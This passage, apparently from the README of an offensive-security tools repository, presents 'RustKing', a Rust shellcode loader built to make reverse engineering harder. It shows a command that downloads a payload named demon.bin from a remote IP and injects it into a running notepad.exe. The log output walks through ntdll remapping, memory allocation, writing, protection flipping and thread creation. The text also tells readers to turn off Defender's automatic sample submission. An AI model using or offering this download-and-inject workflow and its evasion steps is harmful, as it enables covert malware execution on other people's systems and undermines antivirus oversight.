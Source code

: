 ### RustKing
RustKing is an adapted version of `RatKing` on steroids, written in Rust. The intention is to make Reverse Engineering significantly harder.

**NOTE:** RustKing does not support HTTPS payload download and PPID spoofing. Additionally, target process has to be opened manually prior to running RustKing. `--target` must be exact match.
```
C:\>RustKing.exe --url http://192.168.231.128:9090/demon.bin --target notepad.exe

                    ..:::::::::..
               ..:::aad8888888baa:::..
            .::::d:?88888888888?::8b::::.
          .:::d8888:?88888888??a888888b:::.
        .:::d8888888a8888888aa8888888888b:::.
       ::::dP::::::::88888888888::::::::Yb::::
      ::::dP:::::::::Y888888888P:::::::::Yb::::
     ::::d8:::::::::::Y8888888P:::::::::::8b::::
    .::::88::::::::::::Y88888P::::::::::::88::::.
    :::::Y8baaaaaaaaaa88P:T:Y88aaaaaaaaaad8P:::::
    :::::::Y88888888888P::|::Y88888888888P:::::::
    ::::::::::::::::888:::|:::888::::::::::::::::
    `:::::::::::::::8888888888888b::::::::::::::'
     :::::::::::::::88888888888888::::::::::::::
      :::::::::::::d88888888888888:::::::::::::
       ::::::::::::88::88::88:::88::::::::::::
        `::::::::::88::88::88:::88::::::::::'
          `::::::::88::88::P::::88::::::::'
            `::::::88::88:::::::88::::::'
               ``:::::::::::::::::::''
    OffensiveRust   ``:::::::::''    RustKing

[>] Scanning for notepad.exe...
    |-> Found process!
    |-> PID: 11588

[>] Fetching Payload!
    |-> URL: http://192.168.231.128:9090/demon.bin

[>] Resolving Addresses of ntdll.dll
    |-> Original ntdll.dll: 0x7FF856C10000
    |-> New copy of ntdll.dll: 0x1869DB30000

[>] NtAllocateVirtualMemory()
    |-> Base Address: 0x1ED3C1F0000

[>] NtWriteVirtualMemory()
    |-> Shellcode Injected!

[>] NtProtectVirtualMemory()
    |-> Flipping Memory Protection!

[>] NtCreateThreadEx()
    |-> Shellcode Executed!
```
## Chapter 3: Active Directory
> Before we start, please ensure the **Automatic Sample Submission** in Windows Defender AV is disabled and **Real-Time Protection** is up and running.
